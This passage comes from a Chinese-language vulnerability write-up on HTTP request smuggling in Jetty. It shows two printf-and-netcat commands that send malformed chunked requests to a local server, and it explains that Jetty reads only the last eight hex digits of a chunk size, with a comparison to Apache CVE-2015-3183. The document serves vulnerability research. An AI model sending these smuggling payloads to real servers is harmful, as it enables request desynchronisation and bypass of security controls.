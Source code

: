 我们利用以下代码发送请求：

```plain
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

然后我们可以得到两个 200 响应可是按照 chunk 的标准，虽然第二个部分看起来是一个请求，但是实际上应该被算在 chunk data 当中，而问题就在这，jetty 返回了两个请求，把 100000000 当作了 0 ，也就是 chunk end 部分，所以就出现了两个请求的原因。

我们可以再进行一些尝试：

```plain
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

这里我们依然得到了两个 200 响应，也就是第一个 chunk size 1ff00000008 被 jetty 截断成了 8 ，也就是 chunk data 部分只有`abcdefgh`，所以就返回了两个响应。

与 Apache CVE-2015-3183 类似，jetty 只会取 chunk size 的最后8个字节：

```plain
ffffffffffff00000000\r\n
            ^^^^^^^^
            00000000 => size 0

1ff00000008\r\n
   ^^^^^^^^
   00000008 => size 8
```
